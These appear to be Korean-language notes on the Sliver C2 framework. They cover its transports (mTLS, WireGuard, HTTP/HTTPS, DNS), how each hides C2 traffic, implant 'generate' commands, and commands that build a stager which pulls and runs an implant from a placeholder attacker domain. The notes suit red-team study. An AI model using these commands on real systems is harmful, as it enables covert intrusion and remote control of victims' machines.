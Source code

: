 ```bash
[!] Lost session f8c93e97 ASSISTANT_SURROUND - 192.168.0.174:52616 (DESKTOP-DIE7A63) - windows/amd64 - Wed, 22 Sep 2025 10:12:18 EDT
```

---

## C2 Protocols
### 1. mTLS (mutual TLS)
Sliver가 자체적으로 사용하는 TLS 기반 전송  
임플란트와 C2가 서로 인증서를 교환해서 암호화된 채널을 만든다.  
TLS 트래픽으로 위장하면서 인증 기반 보안을 유지하며, HTTPS와 유사한 handshake를 활용해 전송 계층 은닉과 인증을 동시에 얻는다.  

### 2. WireGuard
임플란트가 WireGuard 기반의 VPN 터널을 생성해 C2와 L3 수준에서 직접 통신하는 방식  
내부망 리소스에 대한 피벗이 필요하거나, 임플란트가 가상 NIC를 열어 내부 IP로 라우팅해야 할 때 유용하다. (WireGuard 위에서 SOCKS 같은 리버스 프록시 기능도 제공된다.)  

### 3. HTTP / HTTPS
표준 HTTP(S)를 사용해 C2 체크인과 명령 전송을 하는 방식  
프록시, 인터셉션 환경에서도 작동할 수 있게 설계되어 있고, 정상 웹 트래픽으로 섞어쓰기 쉽다.  

### 4. DNS
DNS 쿼리/응답을 통해 소량의 데이터를 주고받는 방식  
쿼리 서브도메인에 페이로드 데이터를 실어 보내고, 권한이 있는 네임서버가 그 응답을 돌려준다. Sliver는 DNS C2를 지원하며, authoritative name 서버 구성과 함께 사용된다.  
제한된 환경(프록시, 필터링 등)에서 신호를 주고받아야 할 때 사용되지만, 전송량이 작기 때문에 기능에 제약이 있고, HTTP/HTTPS 대비 운영이 까다롭다.  

| Transport      | Sliver 옵션 예시                                                       | 특징 / 장점                                        | 사용 시점                                             |
| -------------- | ---------------------------------------------------------------------- | -------------------------------------------------- | ----------------------------------------------------- |
| **mTLS**       | `generate --mtls <IP:443>`                                             | TLS 기반 상호 인증, 암호화 기본 제공, HTTPS와 유사 | 외부 인터넷 환경, 웹 트래픽에 섞어 은닉할 때          |
| **WireGuard**  | `generate --wg <IP>`                                                   | VPN 터널(L3) 생성, 내부망 피벗/라우팅 용이         | 내부 리소스 접근, lateral movement 필요할 때          |
| **HTTP/HTTPS** | `generate --http <domain>`<br>`https --domain <domain> --lets-encrypt` | 정상 웹 요청처럼 위장 가능, 프록시/필터 우회 쉬움  | 기업 환경, 웹 트래픽 많은 네트워크에서 위장 필요할 때 |
| **DNS**        | `generate --dns <domain>`                                              | DNS 쿼리/응답 채널 이용, 소량 데이터 전송          | 제한적 네트워크, 웹/포트 차단된 환경에서 신호 전송    |

---

## Stager
Stager는 임플란트를 직접 실행하지 않고, 더 작은 로더를 먼저 실행시켜 이후 실제 임플란트를 내려받고 실행하도록 하는 **중간 단계** 코드  
- Sliver 기본 제공 Stagers
  - 간단한 stager payload를 자동 생성할 수 있음
  - 지정된 transport(mTLS, HTTP, DNS 등)를 통해 임플란트를 가져옴
- Custom Stager
  - Sliver 구조를 따르지 않고, 직접 커스텀한 C/C++/C# 코드로 임플란트를 내려받도록 만들 수 있음
  - 예: 단순 HTTP 요청으로 바이너리를 받아 메모리에 적재하는 코드

```bash
# 프로파일 생성
sliver > profiles new --mtls <domain> --format shellcode --arch amd64 sample

# 스테이지 리스너 시작 시 프로파일 지정
sliver > stage-listener --url tcp://<domain>:8443 --profile sample

# 스테이저 생성(프로파일 규칙에 맞게)
sliver > generate stager --lhost <domain> --lport 8443 --arch amd64 --format c --save /tmp
```
